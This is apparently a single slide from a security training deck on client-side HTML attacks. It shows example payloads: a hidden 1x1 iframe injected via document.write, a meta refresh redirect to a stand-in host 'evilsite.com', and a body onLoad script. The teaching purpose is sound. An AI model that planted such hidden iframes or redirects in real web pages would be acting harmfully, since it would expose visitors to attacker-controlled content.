

# Client Side Attacks (Examples – HTML)

iFrame
document.write(‘<iframe src=”http://evilsite.com/index.html” width=1 height=1 style=”visibility:hidden;position:absolute”></iframe>’)

Body onLoad
<BODY onLoad="alert('hello world!')">

Meta Refresh
<meta http-equiv="refresh" content=" http://evilsite.com"/>

50